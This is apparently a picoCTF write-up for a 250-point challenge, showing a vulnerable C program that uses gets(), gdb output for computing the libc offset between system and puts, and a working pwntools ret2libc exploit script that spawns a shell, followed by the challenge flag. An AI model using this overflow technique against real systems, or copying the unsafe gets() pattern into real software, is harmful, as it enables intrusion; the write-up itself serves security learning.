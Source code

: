 

As someone not familiar with the Global Offset Table (got for short) this challenge took me awhile despite only being worth 250 points.
We are given a binary that prints out the addresses to some useful functions. Our goal is to land a shell on the box. We are given the source code so lets take a look:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#define BUFSIZE 148
#define FLAGSIZE 128

char useful_string[16] = "/bin/sh"; 
/* Maybe this can be used to spawn a shell? */
void vuln(){
  char buf[BUFSIZE];
  puts("Enter a string:");
  gets(buf);
  puts(buf);
  puts("Thanks! Exiting now...");
}

int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Here are some useful addresses:\n");
  printf("puts: %p\n", puts);
  printf("fflush %p\n", fflush);
  printf("read: %p\n", read);
  printf("write: %p\n", write);
  printf("useful_string: %p\n", useful_string);
  printf("\n");
  vuln();
  return 0;
}
```

So we can see that get is an unsafe buffer of only 148 bytes and we have the addresses for several functions including puts which will be ran right after gets. What we really need though is the address of system. If we run the program locally using GDB, we can determine the address of system and we can use puts to determine the space between them. Since ASLR is running on the target machine, the addresses are randomized each time the program is ran which makes it harder to find the address of system. Fortunately, the space between system and puts is always the same and does not change.

```Bash
gdb-peda$ print &system
  $1 = (<text variable, no debug info> *) 0xf7e11200 <system>
gdb-peda$ print &puts
  $2 = (<text variable, no debug info> *) 0xf7e3bb40 <puts>
gdb-peda$
```

if we do the math, f7e11200-f7e3bbo = -149504 which is we will use as the systemOffset variable in our exploit script.
Since there is a string variable containing the path to /bin/sh, we want to overflow the buffer in order to call the system function while passing the path of our shell as an argument to it. Seems easy right? Well, its not terrible actually. I used pwntools in order to write and send the payload for me and then set it to give me an interactive process so that we could navigate around and find the flag:

```Python
from pwn import *
systemOffset = -149504

# we need puts and the shell address
proc = process('./vuln')
info = proc.recvuntil('puts: 0x')
puts = proc.recvuntil('\n')
print puts
putsAddr = int(puts, 16)
shell = proc.recvuntil('useful_string: 0x')
shell = proc.recvuntil('\n')
shellAddr = int(shell, 16)
system = putsAddr + systemOffset
payload = 'a'*(148+12) 

# For the overflow
payload += p32(system)
payload += 'aaaa'
payload += p32(shellAddr)
proc.sendline(payload)
proc.interactive()
``` 
Once we run it: python2.7 exploit.py,we are given a shell with which to navigate around and open the flag file:

picoCTF{syc4al1s_4rE_uS3fUl_bd99244d}
